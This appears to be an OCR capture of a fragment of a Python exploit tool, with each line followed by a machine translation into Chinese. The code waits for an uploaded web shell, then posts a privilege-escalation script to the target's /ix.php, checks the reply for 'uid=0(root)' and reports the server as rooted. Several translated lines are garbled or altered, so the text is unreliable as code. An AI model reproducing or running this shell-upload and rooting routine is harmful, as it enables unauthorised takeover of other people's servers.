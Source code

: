 sys.stdout.write(".")  
sys.stdout.write（“.“）

sys.stdout.flush()  
sys.stdout.flush（）

sleep(1)  
睡眠（1）

c += 1

if not up:  
如果不向上：

return False  
返回False

print("Shell uploaded.")  
print（“Shell已上传。“）

return True  
返回True

def shell(self):  
def shell（self）：

print("\\nStarting shell execution")  
print（“\\n正在启动shell执行”）

print("Rooting server")  
print（“根服务器”）

b = requests.post(  
B = requests.post（

self.target + "/ix.php", files={"shs": ROOT\_SCR}, verify=False, timeout=1  
self.target“/ix.php”，files={“shs”：ROOT\_SCR}，verify=False，timeout=1

)

if b.status\_code != 200 or b.text.find("uid=0(root)") == \-1:  
如果B.status\_code！= 200或B.text.find（“uid=0（root）”）== -1：

print("\\n- Rooting the server failed, Please do that manually.")  
print（“\\n-根服务器失败，请手动完成。“）

print(b.status\_code)  
print（B.status\_code）

print(b.text)  
打印（B.文本）

else:  
否则：

print("- Server rooted.")  
print（“-服务器root。“）

print("+ Debug output: ")  
print（“+“）
